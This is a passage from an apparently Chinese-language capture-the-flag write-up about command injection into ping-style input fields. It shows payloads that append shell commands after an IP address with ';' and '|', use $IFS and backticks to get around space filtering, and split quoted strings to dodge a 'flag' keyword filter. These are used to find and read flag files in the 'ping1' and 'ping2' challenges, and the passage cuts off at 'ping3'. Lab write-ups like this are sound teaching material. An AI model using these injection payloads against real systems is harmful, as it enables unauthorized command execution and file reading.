 先看看payload：

```
?ip=127.0.0.1;cat$IFS$1`ls`
```

他的意思其实就是将输出当成输入这里的ls是通过反引号执行的，它输出的内容就被当成了输入，再通过cat读取。

# 一些简单的小题目

- ping1

输入

```
127.0.0.1|find / -name "flag"
```

出现乱码。

![](https://tcakalr.gitee.io/tc//%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_20201216185928.png)

猜测flag被过滤，输入

```
127.0.0.1|find / -name "fla""g"
```

找到flag。

![](https://tcakalr.gitee.io/tc/微信图片_20201216192226.png)

读取flag

```
127.0.0.1|cat fla""g
```

![](https://tcakalr.gitee.io/tc/微信图片_202012161859281.png)

- ping2

照例找flag目录

```
127.0.0.1|find / -name "flag"
```

![](https://tcakalr.gitee.io/tc/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_202012161859282.png)

```
127.0.0.1|cat /tmp/flag
```

![](https://tcakalr.gitee.io/tc/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_202012161859283.png)

ping3

找flag目录，有回显别想绕过空格
